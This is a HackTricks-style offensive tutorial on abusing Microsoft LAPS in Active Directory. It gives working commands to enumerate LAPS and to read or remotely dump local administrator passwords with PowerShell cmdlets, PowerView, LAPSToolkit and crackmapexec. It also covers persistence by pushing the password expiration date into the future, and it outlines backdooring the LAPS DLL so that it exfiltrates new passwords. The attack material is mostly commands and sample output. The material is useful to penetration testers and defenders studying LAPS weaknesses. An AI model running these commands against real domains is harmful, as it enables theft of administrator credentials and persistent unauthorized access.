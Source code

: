 # LAPS

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Basic Information

Local Administrator Password Solution (LAPS) is a tool used for managing a system where **administrator passwords**, which are **unique, randomized, and frequently changed**, are applied to domain-joined computers. These passwords are stored securely within Active Directory and are only accessible to users who have been granted permission through Access Control Lists (ACLs). The security of the password transmissions from the client to the server is ensured by the use of **Kerberos version 5** and **Advanced Encryption Standard (AES)**.

In the domain's computer objects, the implementation of LAPS results in the addition of two new attributes: **`ms-mcs-AdmPwd`** and **`ms-mcs-AdmPwdExpirationTime`**. These attributes store the **plain-text administrator password** and **its expiration time**, respectively.

### Check if activated

```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```

### LAPS Password Access

You could **download the raw LAPS policy** from `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol` and then use **`Parse-PolFile`** from the [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) package can be used to convert this file into human-readable format.

Moreover, the **native LAPS PowerShell cmdlets** can be used if they're installed on a machine we have access to:

```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```

**PowerView** can also be used to find out **who can read the password and read it**:

```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```

### LAPSToolkit

The [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) facilitates the enumeration of LAPS this with several functions.\
One is parsing **`ExtendedRights`** for **all computers with LAPS enabled.** This will show **groups** specifically **delegated to read LAPS passwords**, which are often users in protected groups.\
An **account** that has **joined a computer** to a domain receives `All Extended Rights` over that host, and this right gives the **account** the ability to **read passwords**. Enumeration may show a user account that can read the LAPS password on a host. This can help us **target specific AD users** who can read LAPS passwords.

```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Dumping LAPS Passwords With Crackmapexec**
If there is no access to a powershell you can abuse this privilege remotely through LDAP by using 
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
This will dump all the passwords that the user can read, allowing you to get a better foothold with a different user.

## **LAPS Persistence**

### **Expiration Date**

Once admin, it's possible to **obtain the passwords** and **prevent** a machine from **updating** its **password** by **setting the expiration date into the future**.

```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```

{% hint style="warning" %}
The password will still reset if an **admin** uses the **`Reset-AdmPwdPassword`** cmdlet; or if **Do not allow password expiration time longer than required by policy** is enabled in the LAPS GPO.
{% endhint %}

### Backdoor

The original source code for LAPS can be found [here](https://github.com/GreyCorbel/admpwd), therefore it's possible to put a backdoor in the code (inside the `Get-AdmPwdPassword` method in `Main/AdmPwd.PS/Main.cs` for example) that will somehow **exfiltrate new passwords or store them somewhere**.

Then, just compile the new `AdmPwd.PS.dll` and upload it to the machine in `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` (and change the modification time).

## References
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

